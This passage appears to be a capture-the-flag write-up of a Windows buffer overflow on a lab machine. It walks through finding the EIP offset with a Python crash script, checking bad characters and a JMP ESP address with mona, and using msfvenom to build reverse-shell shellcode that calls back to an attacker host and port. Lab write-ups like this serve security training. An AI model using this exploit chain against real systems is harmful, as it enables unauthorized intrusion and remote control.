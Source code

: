 I crash the server with this pattern and ran `msf-pattern_offset -l 460 -q 39654138` to get an exact offset of `146`. Here `39654138` is the value of the `EIP` register.

I use this script to test my offset and confirm and its crashing with the `EIP` register being overwritten with 4 `B` characters.
```python
import sys,socket

message = b"A"*146 + b"B"*4
payload = (b"")

try:
    print("sending")
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(("192.168.126.130",31337))
    s.send(message + b"\n")
    s.recv(1024)
    s.close()
except:
    print("Cant connect.")
    sys.exit()
```

I now need to check for bad characters. I set a working directory for mona like this: `!mona config -set workingfolder c:\mona\%p`.

To start I generate a byte array excluding the null byte by default using `mona` like this: `!mona bytearray -b "\x00"`. 

After I crash the server again I can run `!mona compare -f C:\mona\gatekeeper\bytearray.bin -a esp` to check which characters are bad.

I update my python script to set the payload variable to the list of bad characters. I add the payload to the message and run it. I find `0a` is a bad character. 

Generate a new bytearray like this `!mona bytearray -b "\x00\x0a"`, update the script accordingly, and check the bad chars again. 

I get `status unmodified` which means I have all the bad characters `\x00\x0a`. Now I can find a jump point and generate shellcode for a reverse shell. 

To find a jump point I run `!mona jmp -r esp -cpb \x00\x0a` and I find a memory address at `0x080414c3`. This will need to be in little endian for my exploit. It will look like `\xc3\x14\x04\x08`.

I generate my shellcode like this: `msfvenom -p windows/shell_reverse_tcp LHOST=10.13.66.123 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00\x0a"`

I run `msfconsole` then `use exploit/multi/handler` then `set payload windows/shell_reverse_tcp` then `set EXITFUNC thread` then `set LHOST ip`.

That gets me a shell:
```msfconsole
C:\Users\natbat\Desktop>whoami  
whoami  
gatekeeper\natbat
```
___
